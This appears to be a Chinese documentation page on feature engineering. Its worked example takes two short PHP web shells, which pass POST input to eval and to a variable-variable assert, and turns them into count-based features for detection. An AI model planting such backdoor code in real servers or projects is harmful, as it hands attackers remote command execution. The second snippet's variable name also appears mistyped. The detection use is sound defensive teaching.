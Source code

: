 # 特征工程

## 什么是特征工程

特征工程的目标是从原始数据中提取出有用的特征，转变成数学符号，也就是矩阵，以便让机器学习算法更好地理解数据。

<DocsAD/>

## 特征工程步骤

* 提取特征
* 特征清洗
* 特征降维

## 特征工程实例

```php
<?php  
function fun($a){  
    @eval($a);  
}  
@fun($_POST['shell']);  
?>

<?php
$bb="assert";
$a='bb';
$$aa($_POST['shell']);
?>
```

```feature
count(eval)
count(fun)
count($_POST)

str(shell) 0/1

第一个脚本特征：1,2,1,1,1
第二个脚本特征：0,0,1,1,0
```